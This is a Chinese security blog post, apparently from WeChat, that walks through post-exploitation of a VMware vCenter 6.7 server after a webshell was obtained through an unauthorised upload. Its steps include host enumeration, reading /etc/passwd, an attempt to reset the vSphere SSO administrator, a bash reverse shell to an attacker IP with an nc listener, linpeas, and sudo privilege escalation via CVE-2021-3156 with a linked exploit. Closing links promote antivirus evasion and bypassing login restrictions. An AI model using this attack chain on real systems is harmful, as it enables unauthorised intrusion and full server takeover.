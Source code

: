 #  【护网必问】Vcenter后渗透漏洞应用！   
 进击的HACK   2024-05-06 21:51  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQpAnrqNicQd9iaTIQg3TZia6nrUbV4G5Q5Q6Bg9beNgubWmsxPvjqpZ2D57rOZGdHvvbWPzQu2g3FnrQ/640?wx_fmt=png&from=appmsg "")  
  
**点击蓝字，立即关注**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQpAnrqNicQd9iaTIQg3TZia6nrSdSa2Gp5kJtMgzfxVhvDI0XO1Pf2ibgxmJBIQAdHFrUIdxDEJpJc4Cg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QABjQccnicQqZDxLPGu2a3WsfLibic8pjh5iboXZCanY4cPfn2J528ibiaCzUeLniaO1fPYyxq0rb7icld3jm0Qiad2e9icg/640?wx_fmt=gif "")  
  
前言：通过未授权前台上传shell成功拿到webshell，这几天面试题问的多，就先尝试一下Vcenter后渗透  
  
**漏洞版本****->6.71**  
  
https://10.128.23.123/sdk/vimServiceVersions.xml  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvQwArYWcIQhq8Xwz6ogz1XpRzeicV50Uk0nJUKU5sDShjdraciclwjIww/640?wx_fmt=png&from=appmsg "")  
  
  
```
VMware vCenter Server 7.0系列< 7.0.U1c


VMware vCenter Server 6.7系列< 6.7.U3l


VMware vCenter Server 6.5系列< 6.5 U3n
```  
  
研判容器  
```
cat /proc/1/cgroup
```  
  
**通常需要检查****/proc/1/cgroup****文件中的内容。在容器中，通常会有类似于****$1:name=systemd:/docker/$container_id****的行，其中****$container_id****是容器的唯一标识符。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvGmibAV2wlyn7MvPo5ZleQ4IzS0zfeib4GdicwOV5eRbicHkwUO5wQ786Ng/640?wx_fmt=png&from=appmsg "")  
  
  
  
**这里我们判断是非容器了且执行权限不是****root****，权限一般般**  
```
su
```  
```
chmod +x /etc/sudoers
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvysHpX9s4WnKgXFWqmNH3aznziak4Ru6BRxexzjtibfT1Cp8e0ACJvibIA/640?wx_fmt=png&from=appmsg "")  
  
  
  
提权  
```
cat /etc/*-release
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvSS9kpQwlaHIvdnkeuoK5YrJraKTPGMMQFicF7dXDnzM36B2FJzeQZiaw/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibv0s0cwJXK5Ire8gnFzeKic5hpUSrLIuHFkjbk2rKSx6pOBhRtwfSjfEw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**VMware Photon.....****第一次听这个操作系统，以为是容器但是前面判断并没有什么****container-id****，于是去问****gpt****。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvmNdYFtCbWaCFpX2wlhx6A1lPeL7Oib2DfqpuhLQExUgfbDwekiaxicmXA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**用了一个提权脚本，以失败告终**  
```
https://github.com/worawit/CVE-2021-3156/blob/main/exploit_defaults_mailer.py
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvYx5ic23FNmV5W7193QsZfSrjIMdicrxPRS1lLB2puFMVjfFSnamhyZGw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**看看有哪些管理员账户吧**  
```
cat /etc/passwd
```  
  
**可以发现****uid****为****0****的只有****root****账户**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvJryC941bic6SwpWOicNSw5blCXsoWKgIh1DhZ2OqlrFJaIW0FcmFKibBA/640?wx_fmt=png&from=appmsg "")  
  
  
  
遍历域账户  
```
/usr/lib/vmware-vmafd/bin/vmafd-cli get-domain-name --server-name localhost
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvhkhG7iazaeIVwsd2vIbLkwLRbHcgt64Uiceh9gwZg1s7UtThZJc1ZmhQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
**重置域账户密码，失败了，很好，还是权限的问题。**  
```
/usr/lib/vmware-vmdir/bin/vdcadmintool


administrator@vsphere.local
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvCD7lFe9OFkW7W3wV7oJUKCmdl8FVOhHgyLsgr8F4cA6PHYuDibHD7Ww/640?wx_fmt=png&from=appmsg "")  
  
  
  
**先反弹到我主机上来**  
```
nc -lvvp 1555


bash -i >& /dev/tcp/10.23.108.79/1555 0>&1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibv2hSdVUDEoJCOI9Nj4CNSCibxnHxGA60MrSUQa7PzkoeZcplPRVtic0lw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**linpeas提权**  
  
直接在我windows上启动msf，正向shell试试看。  
```
uname -a
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvNoBJgGXKNYrXyuz5udb21w7YoU420NtxlDmU9XYEmgtzXrc56BZrdA/640?wx_fmt=png&from=appmsg "")  
  
  
```
lscpu
```  
  
**确定是虚拟机搭建**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibv3FWvNJJcGlqxzYDnlIZgYr2R2ttjFkyFrNjOLC2VCvqRY38ktAuWmA/640?wx_fmt=png&from=appmsg "")  
  
  
```
./linpeas.sh
```  
  
**这里列举了一堆可以进行提权的历史漏洞**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvFzFzic28ibG9IJoWPjGjXZicaqv4qtEGpk0qObyFjOtspYtfO4fgFibibuw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**进一步证明为****vmware**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvg0EZM6lvtUp3lvdbfv9gJypDM3YGOz9boJCoU9ToOMPK6lLIQ7yuRg/640?wx_fmt=png&from=appmsg "")  
  
  
```
sudo -V
```  
  
**sudo****版本是****1.8.20p2****，存在****sudo****提权漏洞****CVE-2021-3156**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvFmjoTrRPLhMW4QThtpL80o1pUN7vrkaQgeHEyh9CXvuwC9IFzoNAyA/640?wx_fmt=png&from=appmsg "")  
  
  
```
sudoedit -s /
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvguNOkK4xBNuUCV2h9n7rJy6bQK9jHdsXafhXSPATh4cicPqoibTfPwsg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**上传相关提权脚本后编译，直接告诉我无****make****指令，下载又需要****sudo****权限****...****泪目了，后续通过上传编译脚本直接拿下**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibveIPQ9vWsvV3qiccJHrD6MufXImQyILqOP63CYgPQX7fPokkiaz0CQhLg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**END**  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QABjQccnicQqZDxLPGu2a3WsfLibic8pjh5MyYsDxTbnFICOQJHshAB7h6e9P0bhe1rGQYYbNp5zHibfHhneQTIkew/640?wx_fmt=gif "")  
  
  
  
**往期回顾**  
  
  
  
  
  
[](https://mp.weixin.qq.com/s?__biz=MzkyODMxODUwNQ==&mid=2247493380&idx=1&sn=9dec2f3d0c29d3238790ef87d9725fa1&chksm=c2183242f56fbb5485d1851f23ebd029168db6f25b02cf08dc67a2f9114ae9c9883254c8c079&token=1215047604&lang=zh_CN&scene=21#wechat_redirect)  
  
  
【独家揭秘】某EDU！Docker容器逃逸大揭秘！你的数据安全有多脆弱？  
  
[](https://mp.weixin.qq.com/s?__biz=MzkyODMxODUwNQ==&mid=2247493365&idx=1&sn=7869eba384e24f470087bc0ea810b40f&chksm=c21833b3f56fbaa5c080852fcf27fd0d85c115a39d6fd5c1841cfdb07c9d261756cdb9fe32b9&token=1215047604&lang=zh_CN&scene=21#wechat_redirect)  
  
  
【大招来袭】超强浏览器插件，助你绕过微信授权登录限制！  
  
[](https://mp.weixin.qq.com/s?__biz=MzkyODMxODUwNQ==&mid=2247493312&idx=1&sn=eb083a1390bd0ed27af318ed3a8f571e&chksm=c2183386f56fba903e0defe9f34ba7049252709dc7646932f1444b9981b9fccfe74850d90a91&token=347263275&lang=zh_CN&scene=21#wechat_redirect)  
  
  
过火绒、腾讯管家、defender免杀思路分享  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vnT4hbaLoX6HZD1eqoFicUwpGtOJIMjcsRAkfgiaaxnugt26pP2Aibniav9gH9tRCXQWG1ygOvjc0LHP6IdUuF5icHA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibv3anOiceibXz1VXdKykRDqLyrk9ubOM2B5tRSkWicFjeAAN47KCIPDzpibg/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vnT4hbaLoX6HZD1eqoFicUwpGtOJIMjcsGmAjFmx5BZaWVnJSRoic7JM0ceppYVF5c3jJRGI3BsLazTl0ELheVjw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvtHfL30icuTkniaIF9A7pic4bt0p3KFmPQcaS0icTuMOY6deUQ8kibUUeB4w/640?wx_fmt=gif&from=appmsg "")  
  
**点分享**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvoy9eXJicIJ9p79UjBjP7iaEWryj9o9ibupMrG4HcvdugXGRHtCoLOstDw/640?wx_fmt=gif&from=appmsg "")  
  
**点收藏**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvMraoEON2nL5fg20ECwdlGgntFyIGYBonJA5fZ2jfchYELY65t705IA/640?wx_fmt=gif&from=appmsg "")  
  
**点在看**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QABjQccnicQo6Vib6aHTxPmqksY3dmjKibvp0ZQQgGHMegb5K0IuC1U5OeLvehQGZS753IApMdDPSaLWwAcSD3BWQ/640?wx_fmt=gif&from=appmsg "")  
  
**点点赞**  
  
